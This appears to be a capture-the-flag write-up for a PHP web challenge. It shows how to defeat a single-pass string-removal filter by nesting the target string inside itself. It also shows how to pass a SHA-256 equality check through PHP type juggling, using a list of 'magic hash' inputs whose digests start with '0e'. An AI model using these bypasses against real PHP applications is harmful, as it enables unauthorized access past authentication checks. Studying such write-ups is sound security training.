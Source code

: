 ![Untitled](WhitehatPlay11%20-%20Web%20b069cda417f4481997735214faf64af9/Untitled%2016.png)

First, the value of the “input” needs to be equal to “DucBTTPA”. The problem here is that whenever we enter a string containing a substring “DucBTTPA”, the code will replace it with “”. The solution to this problem is that we will insert “DucBTTPA” string in 1 - “DucBTTPA”.length()-2 position. For example “DucDucBTTPABTTPA”

After passing the first problem we need to bypass the following condition to see the flag

```php
if($input2!==$input3 && hash("sha256",$input2)==hash("sha256",$input3))
```

We will use **magic hashes** to exploit **Type Juggling attacks** in PHP. In PHP two strings matching the regular expression `0+e[0-9]+`compared with `==`returns `true`

```php
'0e1' == '00e2'== '0e1337' == '0'
```

so we can take two of the following strings to pass them into “input2” and “input3” parameter

```php
34250003024812:0e46289032038065916139621039085883773413820991920706299695051332
TyNOQHUS:0e66298694359207596086558843543959518835691168370379069085300385
CGq'v]`1:0e24075800390395003020016330244669256332225005475416462877606139
\}Fr@!-a:0e72388986848908063143227157175161069826054332235509517153370253
|+ydg uahashcat:0e47232208479423947711758529407170319802038822455916807443812134
8W-vW:5ghashcat:0e99625202804787226908207582077273485674961623832383874594371630 (note: the plaintext has a colon in the middle)
mz586Ostt0:0e68778243444544519255778909858576221322537110103676691840647395
Sol7trnk00:0e57289584033733351592613162328254589214408593566331187698889096
NzQEVVCN10:0e92299296652799688472441889499080435414654298793501210067779366
Z664cnsb60:0e51257675595021973950657753067030245565435125968551772003589958
jF7qQUmx70:0e04396813052343573929892122002074460952498169617805703816566529
0e9682187459792981:0e84837923611824342735254600415455016861658967528729588256413411
0e9377421626279222:0e48575090397052833642912654053751294419348146401806328515618635
```
